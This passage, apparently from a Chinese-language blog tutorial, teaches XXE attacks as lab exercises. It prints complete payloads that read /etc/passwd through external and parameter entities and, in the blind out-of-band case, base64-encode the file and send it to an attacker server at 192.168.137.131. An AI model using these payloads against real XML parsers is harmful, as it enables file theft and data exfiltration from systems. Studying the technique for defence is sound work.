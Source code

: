 • **使用CDATA 不返回被解析的数据**

有些内容可能不想让解析引擎解析执行，而是当做原始的内容处理，用于把整段数据解析为纯字符数据而不是标记的情况包含大量的 <> & 或者
“ 字符，CDATA节中的所有字符都会被当做元素字符数据的常量部分，而不是 xml标记，可以输入任意字符除了]]>不能嵌套。用处是万一某个标签内容包含特殊字符或者不确定字符，我们可以用 CDATA包起来。如何包裹呢？？？我们知道我们只有一种选择，就是使用 参数实体。
```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE roottag [
 <!ENTITY % start "<![CDATA[">   
 <!ENTITY % goodies SYSTEM "file:///etc/passwd">  
 <!ENTITY % end "]]>">  
 <!ENTITY % dtd SYSTEM "http://192.168.137.131:8081/evil.dtd">
%dtd; ]>
<roottag><name>&all;</name></roottag>

evil.dtd文件的内容为：
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY all "%start;%goodies;%end;">
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200222114457796.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2RhaWRlMjAxMg==,size_16,color_FFFFFF,t_70)

**新的问题出现**

但是，你想想也知道，本身人家服务器上的 XML 就不是输出用的，一般都是用于配置或者在某些极端情况下利用其他漏洞能恰好实例化解析 XML 的类，因此我们想要现实中利用这个漏洞就必须找到一个不依靠其回显的方法——外带

**新的解决方法**

想要外带就必须能发起请求，那么什么地方能发起请求呢？ 很明显就是我们的外部实体定义的时候，其实光发起请求还不行，我们还得能把我们的数据传出去，而我们的数据本身也是一个对外的请求，也就是说，我们需要在请求中引用另一次请求的结果，分析下来只有我们的参数实体能做到了(并且根据规范，我们必须在一个 DTD 文件中才能完成“请求中引用另一次请求的结果”的要求)

**实验二：无回显读取本地敏感文件(Blind OOB XXE)**

**test.dtd**
```xml
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/passwd">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://192.168.137.131:9999?p=%file;'>">
```
**Payload:**
```xml
<!DOCTYPE convert [
<!ENTITY % remote SYSTEM "http://192.168.137.131:8081/test.dtd">
%remote;%int;%send;
]>
```
我们从 payload 中能看到 连续调用了三个参数实体 %remote;%int;%send;，这就是我们的利用顺序，%remote 先调用，调用后请求远程服务器上的 test.dtd ，有点类似于将 test.dtd 包含进来，然后 %int 调用 test.dtd 中的 %file, %file 就会去获取服务器上面的敏感文件，然后将 %file 的结果填入到 %send 以后(因为实体的值中不能有 %, 所以将其转成html实体编码 &#37;)，我们再调用 %send; 把我们的读取到的数据发送到我们的远程 vps 上。

![在这里插入图片描述](https://img-blog.csdnimg.cn/20200222114723266.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2RhaWRlMjAxMg==,size_16,color_FFFFFF,t_70)

问题1：带外数据通道的建立是使用嵌套形式，利用外部实体中的URL发出访问，从而跟攻击者的服务器发生联系
直接在内部实体定义中引用另一个实体的方法如下，但是这种方法行不通，解析直接报错。

![在这里插入图片描述](https://img-blog.csdnimg.cn/20200222114807653.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2RhaWRlMjAxMg==,size_16,color_FFFFFF,t_70)
